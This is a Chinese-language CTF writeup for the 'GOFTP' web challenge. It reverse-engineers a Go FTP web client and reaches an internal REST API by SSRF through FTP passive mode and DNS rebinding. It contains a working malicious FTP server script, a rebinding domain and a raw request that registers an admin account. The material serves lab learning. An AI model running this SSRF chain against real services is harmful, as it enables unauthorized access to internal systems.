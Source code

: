 # GOFTP

restful API在内网9000端口。

# How to Start and Stop
## start
```shell
docker-compose up -d
```

## stop
```shell
docker-compose down --rmi all
```

# writeup
此题的附件只给了一个二进制文件。而网站内容是一个ftp的web客户端，需要注册登录才能使用。

我们先逆向此二进制文件，尝试去理解其逻辑。

![image-20211230161845575](https://gitee.com/AFKL/image/raw/master/img/image-20211230161845575.png)

网站主要的函数如上，其中`ShowSecretPage`似乎比较惹人注目。其逻辑如下。

![image-20211230162003056](https://gitee.com/AFKL/image/raw/master/img/image-20211230162003056.png)

逻辑似乎是将读取`/flag`文件后，直接打印到浏览器里。我们看看这个controller录属于哪个路由。

![image-20211230162709650](https://gitee.com/AFKL/image/raw/master/img/image-20211230162709650.png)

![image-20211230162758453](https://gitee.com/AFKL/image/raw/master/img/image-20211230162758453.png)

在`SetRoute`逻辑中我们可以看到对应的路由。可以看到这个controller属于`/admin`和`/admin/index`两个路由。但`/admin`的路由组中有一个中间件是`adminSessionCheck`，跟踪到这个中间件的逻辑。

![image-20211230163152071](https://gitee.com/AFKL/image/raw/master/img/image-20211230163152071.png)

可以看到其是将session中的username属性拿出，用`strings.EqualFold`函数比较`admin`字符串，如果两者不相等则展示`forbidden.html`。

那么整个应用中唯一能与session交互的地方应该是注册和登录逻辑。

在注册逻辑中，用户禁止注册用户为`admin`的用户。且用的函数也是`strings.EqualFold`，不能在这里下手脚。
![image-20211230163556765](https://gitee.com/AFKL/image/raw/master/img/image-20211230163556765.png)

![image-20211230163612212](https://gitee.com/AFKL/image/raw/master/img/image-20211230163612212.png)

在创建用户的时候，应用会调用`WebFTPClient_model_CreateUser`而这个函数，这个函数将我们输入的数据编码后，用`grequests`库发给某个地址的`/api/user`路由。

![image-20211230164239157](https://gitee.com/AFKL/image/raw/master/img/image-20211230164239157.png)

题目描述中告知了restful api在9000端口，那么这里应该就是与restapi进行通信了。
这里获取`grequest`的发包方法有很多，这里就以`L3H_Sec`队伍的方法为例：
```
dlv挂上去断在json里调试看看config结构，写个config.json把服务跑起来，抓下注册请求的包， username改成admin。
```

因为整个应用是一个ftp的客户端，那么我们可以利用被动模式将上传文件的数据传到内网的restapi服务。
在upload逻辑中，我们可以看到应用调用了`goftp`库。

![image-20211230165349267](https://gitee.com/AFKL/image/raw/master/img/image-20211230165349267.png)

那么我们可以在github搜索到它的[源码](https://github.com/dutchcoders/goftp/blob/ed59a591ce14ff6c19c49be14294528d11a88c37/ftp.go#L419)。
在这里我们看见，开发者可能是为了安全或者偷懒，忽略了我们被动连接的ip，直接使用了当前连接主机的地址。

![image-20211230165626301](https://gitee.com/AFKL/image/raw/master/img/image-20211230165626301.png)

但问题不大，我们可以使用dns rebinding来规避。
为了dns rebinding成功，我使用了自己写的假ftp服务器。
```python
import socket
import time
import sys

sendfile_ip = "127.0.0.1:9000"

def ip2server(ip):
    host, port = str(ip).split(":")
    return ('0.0.0.0', int(port))

def ip2pasv(ip):
    host, port = str(ip).split(":")
    return tuple([int(i) for i in host.split(".")]) + (int(port) // 256, int(port) % 256)

RETR_COMPLETE = b"226 Transfer complete.\r\n"
ftp_table = {
    "USER" : b"331 Username ok, send password.\r\n",
    "PASS" : b"230 Login successful.\r\n",
    "TYPE" : b"200 Type set to: Binary.\r\n",
    "EPSV" : b"500 'EPSV': command not understood.\r\n",
    "RETR" : b"150 File status okay. About to open data connection.\r\n",
    "STOR" : b"150 File status okay. About to open data connection.\r\n",
    "QUIT" : b"221 Goodbye.\r\n",
    "PASV" : b"227 Entering passive mode (%d,%d,%d,%d,%d,%d).\r\n" % (ip2pasv(sendfile_ip))
}

s = socket.socket()
s.bind(("0.0.0.0", int(sys.argv[1])))
s.listen(1)

while True:
    print("="*30)
    c, addr = s.accept()
    print('已链接:', addr)

    c.send(b'220 pyftpdlib 1.5.6 ready.\r\n')
    # time.sleep(10)
    while True:
        data = str(c.recv(1024).decode("utf-8")).replace("\n", "")
        print(addr, " -> self:", data)
        comm = data[:4]
        time.sleep(5)
        c.send(ftp_table.get(comm))
        print("self ->", addr, ":", ftp_table.get(comm).decode("utf-8").replace("\n", ""))

        if comm == "RETR":
            c.send(RETR_COMPLETE)
            print("self ->", addr, ":", RETR_COMPLETE.decode("utf-8").replace("\n", ""))
        elif comm == "QUIT":
            c.close()
            break
```

也可以使用`pyftpdlib`库。

在upload路由填上准备好的dns rebind域名和注册admin用户的http请求包文件上传文件
```
addr: ftp://fan:root@make-vpsip-rebindfor60safter1times-127.0.0.1-rr.1u.ms:8877
file: 文件内容如下

PUT /api/user HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: GRequests/0.10
Content-Length: 64
Content-Type: application/json
Accept-Encoding: gzip

{"email":"afklmm@qq.com","password":"123456","username":"admin"}
```

当ftp的响应卡在150响应之后，代表ssrf成功。
使用上面文件发送的账号登录，访问admin路由即可拿到flag。